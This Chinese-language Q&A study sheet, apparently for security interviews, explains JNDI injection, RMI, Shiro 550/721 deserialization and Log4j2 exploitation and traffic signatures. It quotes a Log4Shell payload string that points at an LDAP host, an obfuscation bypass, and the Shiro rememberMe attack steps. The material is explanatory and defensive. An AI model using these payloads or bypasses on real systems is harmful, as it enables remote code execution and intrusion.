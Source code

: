 
### jndi 注入是什么

jndi 是 java 接口，可以访问命名和目录服务。jndi 的 lookup 方法的 uri 参数可控，攻击者注入一个恶意 url，存储一个 java payload，这个 url 被加载时 payload 被解析，造成了注入攻击。

---

### rmi 是什么

rmi 即远程方法调用，分为三个部分：客户端进行方法的调用，服务端提供方法、对代码进行解析，注册中心相当于一个字典，客户端调用服务端的方法时在注册中心进行查询和引用。

---

### shiro 的流量特征，550 和 721 有什么区别

这里 550 和 721 是 apache 官方 issue 的编号，550 影响版本 version <= 1.2.4，而 721 影响版本 1.2.4 < version < 1.4.2。

流量特征：shiro 的 cookie 会有一个 rememberme 的值，并且这个值是很长的一个字符串，采用 base64 编码。

shiro550 使用 aes+base64 加密，密钥写死在代码里面。知道了密钥可以碰撞解密，写 payload 再加密，替换原来的 rememberme 字段，这个 rememberme 最终被反序列化，payload 被后端解析。

shiro721 不需要知道 key，但是需要一个合法登录用户的 cookie 进行 padding oracle 填充攻击。

---

### shiro 利用链

无依赖利用链，具体情况可以使用工具 ysoserial。

因为我们知道 Shiro 原生类中是不存在 Commons-Collection 依赖的，所以当没有 CC 依赖的时候我们就无法通过 CC 链进行攻击，我们就需要另外找一个无依赖的方式对 Shiro 的反序列化漏洞进行利用：例如通过 Shiro 自带的依赖 Commons-Beanutils 进行攻击。

---

### log4j2 的原理，怎么判断是否利用成功

log4j2 是日志组件，其 lookups 机制存在 jndi 注入。

判断利用是否成功：（1）出网一般走 rmi/ldap/dns，配合 ids 查看目标主机是否外带攻击；（2）查看目标主机是否存在 dnslog 活动；（3）查看是否下载恶意类。

---

### log4j2 的流量特征

log4j2 的特征是 ${}，例如 ${jndi:ldap://0.0.0.0:80/exploit}

log4j2 使用 jndi 注入，找恶意 url。

log4j2 流量可以看到 rmi 或者 ldap 字样。

log4j2 流量会出现 dns/ip 相关特征。

log4j2 混淆绕过会使用冒号，例如 ${::::-j}${what:-n}

log4j2 的影响范围包括：log4j1.x，spring boot，struts2, solr, vmware 产品线, flink, druid

---